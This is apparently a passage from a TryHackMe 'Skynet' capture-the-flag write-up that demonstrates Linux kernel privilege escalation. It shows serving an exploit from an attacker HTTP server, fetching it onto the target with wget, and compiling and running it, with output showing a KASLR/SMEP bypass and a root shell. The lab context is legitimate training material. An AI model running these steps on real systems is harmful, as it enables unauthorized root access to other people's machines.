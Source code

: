 
```sh
Usage:
// user@ubuntu:~$ uname -a
// Linux ubuntu 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
// user@ubuntu:~$ whoami
// user
// user@ubuntu:~$ id
// uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
// user@ubuntu:~$ gcc pwn.c -o pwn
// user@ubuntu:~$ ./pwn 
```
  
Webserver:  
@ local: Start a python http server at port 4444: `python -m SimpleHTTPServer $port`  
  
Upload:  
@ target: `cd /tmp/`, `ls -la`, `wget http://tun0-ip-local:5555/41994.c`, `ls -la` and `chmod +x 41994.c`
  

```sh
wget http://10.14.2.242:5555/privesc.c
--2020-11-07 10:05:44--  http://10.14.2.242:5555/privesc.c
Connecting to 10.14.2.242:5555... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24033 (23K) [text/plain]
Saving to: 'privesc.c'

privesc.c           100%[===================>]  23.47K  81.5KB/s    in 0.3s    

2020-11-07 10:05:52 (81.5 KB/s) - 'privesc.c' saved [24033/24033]

www-data@skynet:/tmp$ id   
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@skynet:/tmp$ chmod +x privesc.c 
www-data@skynet:/tmp$ gcc privesc.c -o pwn
www-data@skynet:/tmp$ ./pwn
[.] starting
[.] checking distro and kernel versions
[.] kernel version '4.8.0-58-generic' detected
[~] done, versions looks good
[.] checking SMEP and SMAP
[~] done, looks good
[.] setting up namespace sandbox
[~] done, namespace sandbox set up
[.] KASLR bypass enabled, getting kernel addr
[~] done, kernel text:   ffffffff8ae00000
[.] commit_creds:        ffffffff8aea5d20
[.] prepare_kernel_cred: ffffffff8aea6110
[.] SMEP bypass enabled, mmapping fake stack
[~] done, fake stack mmapped
[.] executing payload ffffffff8ae17c55
[~] done, should be root now
[.] checking if we got root
[+] got r00t ^_^
root@skynet:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@skynet:/tmp#
```
  

[Skynetlink]: https://tryhackme.com/room/skynet
[dirsearch]: https://github.com/maurosoria/dirsearch